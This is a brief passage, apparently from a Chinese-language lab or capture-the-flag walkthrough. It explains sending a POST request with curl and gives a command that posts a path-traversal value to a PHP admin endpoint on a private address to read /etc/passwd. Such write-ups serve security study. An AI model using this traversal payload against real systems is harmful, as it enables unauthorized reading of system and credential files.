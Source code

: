 页码中显示是`POST`传参，可以借助`BurpSuite`来改变请求方式，或者使用`curl`命令字发送post请求

```bash
curl --help | grep url
```



![image-20231203183717937](./imgs/image-20231203183717937.png)

```bash
curl --data-urlencode "urlConfig=../../../../../../../../../etc/passwd"  http://10.9.75.11/administrator/alerts/alertConfigField.php 
```

